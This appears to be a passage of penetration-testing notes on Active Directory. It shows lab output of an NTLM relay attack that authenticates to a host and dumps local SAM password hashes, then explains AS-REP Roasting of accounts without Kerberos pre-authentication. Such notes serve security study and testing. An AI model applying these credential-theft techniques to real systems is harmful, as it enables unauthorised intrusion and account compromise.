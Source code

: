 	[*] Protocol Client SMB loaded..
	[*] Protocol Client RPC loaded..
	[*] Protocol Client IMAP loaded..
	[*] Protocol Client IMAPS loaded..
	[*] Protocol Client DCSYNC loaded..
	[*] Protocol Client LDAP loaded..
	[*] Protocol Client LDAPS loaded..
	[*] Protocol Client HTTP loaded..
	[*] Protocol Client HTTPS loaded..
	[*] Protocol Client MSSQL loaded..
	[*] Protocol Client SMTP loaded..
	[*] Running in relay mode to hosts in targetfile
	[*] Setting up SMB Server
	[*] Setting up HTTP Server
	[*] Setting up WCF Server

	[*] Servers started, waiting for connections
	[*] SMBD-Thread-4: Connection from VALHALLA/ADMINISTRATOR@192.168.200.100 controlled, attacking target smb://192.168.200.100
	[-] Authenticating against smb://192.168.200.100 as VALHALLA/ADMINISTRATOR FAILED
	[*] SMBD-Thread-5: Connection from VALHALLA/ADMINISTRATOR@192.168.200.100 controlled, attacking target smb://192.168.200.110
	[*] Authenticating against smb://192.168.200.110 as VALHALLA/ADMINISTRATOR SUCCEED
	[*] SMBD-Thread-5: Connection from VALHALLA/ADMINISTRATOR@192.168.200.100 controlled, but there are no more targets left!
	[*] Service RemoteRegistry is in stopped state
	[*] Starting service RemoteRegistry
	[*] Target system bootKey: 0xc80bb860144b087eaf36f6fb4d7cb913
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	win7:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	[*] Done dumping SAM hashes for host: 192.168.200.110
	[*] Stopping service RemoteRegistry

# AS-REP Roasting

If Kerberos Pre-Authentication is enabled, a [Timestamp](https://ldapwiki.com/wiki/Timestamp) will be [encrypted](https://ldapwiki.com/wiki/Encrypted) using the user's [password](https://ldapwiki.com/wiki/Password) [hash](https://ldapwiki.com/wiki/Hash) as an [encryption](https://ldapwiki.com/wiki/Encryption) [key](https://ldapwiki.com/wiki/Key). If the [KDC](https://ldapwiki.com/wiki/KDC) reads a valid time when using the user's password hash, which is available in the [Microsoft Active Directory](https://ldapwiki.com/wiki/Microsoft%20Active%20Directory), to decrypt the [Timestamp](https://ldapwiki.com/wiki/Timestamp), the [KDC](https://ldapwiki.com/wiki/KDC) knows that request isn't a replay of a previous request.

Without Kerberos Pre-Authentication a [malicious](https://ldapwiki.com/wiki/Malicious) [attacker](https://ldapwiki.com/wiki/Attacker) can directly send a dummy request for [authentication](https://ldapwiki.com/wiki/Authentication). The [KDC](https://ldapwiki.com/wiki/KDC) will return an [encrypted](https://ldapwiki.com/wiki/Encrypted) [TGT](https://ldapwiki.com/wiki/TGT) and the [attacker](https://ldapwiki.com/wiki/Attacker) can brute force it offline.
